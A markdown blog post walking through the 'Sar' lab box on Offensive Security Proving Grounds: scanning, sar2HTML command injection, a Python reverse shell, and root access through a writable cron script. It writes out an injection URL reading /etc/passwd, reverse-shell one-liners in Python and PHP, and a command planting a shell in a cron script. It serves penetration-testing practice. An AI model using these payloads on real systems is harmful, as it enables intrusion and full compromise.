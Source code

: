 ```yaml
---
layout: posts
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the box **"Sar"** exploiting sar2HTML via Remote Code Execution (RCE)
- **Box Location:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy
- **Starting Location:** Kali VM in the same subnet

- - - 

### Step 1: Network Scanning
- Perform a stealth scan of the entire subnet to identify target machine
> nmap -sS [ip range]

- identify open ports
- open ip address in browser
  * shows default Apache page

### Step 2: Directory Brute Force
> gobuster dir -u [url] -w [path to wordlist]

- identifies robot.txt
  * text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server
- - -
### Research
- Research to find **sar2HTML** exploit
  * Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
  * Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
    * Example: **http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd**
- - - 
### Now I want a reverse shell
- At least a few options:
 1. Use Python or Perl command to take reverse shell
 2. Metaploit to create a reverse connectdion file and u pload it on target using wget 
 3. If target has NetCut utility, it can take the reverse connection

### Attempt NetCut utility
  - Run nc command to see if it has output
    - > nc -help
    - any return on output means it is available (does not work here)
### Attempt Python or Perl package
  - Run python help command to verify any output
    - > python3 --help
    - This works
  - Example command used with RCE:
    - > python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
    - > nc -lvp 1234
  - Gain stable shell access:
    - > python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
  - **user flag can be found here** (/home/love/Desktop/user.txt)
- - -
### Gain Root
  - Find exploits based on OS and kernel versions
    - no luck
  - Check weak file permission and processes
    - Found a **cron job** is being run as a root user
      - > cat /etc/crontab
    - Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**
    - Navigate to /var/www/html/ and see what is there
      - finally.sh is calling write.sh
      - write.sh is create a folder in temp directory
      - the command **ls -l** shows we can edit write.sh
      - Add a php reverse connection command into write.sh
        * > php -r ‘$sock=fsockopen(“192.168.1.20”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’
        * IP address = attacker machine (mine)
        * Setup listener **nc -lvp 4444**
        * Wait 5 mins for cron job
  - **root flag: cat /root/root.txt**

### Echo the php script into the write.sh file
> echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
- echo requires a \ in front of a $ and " (probably more)




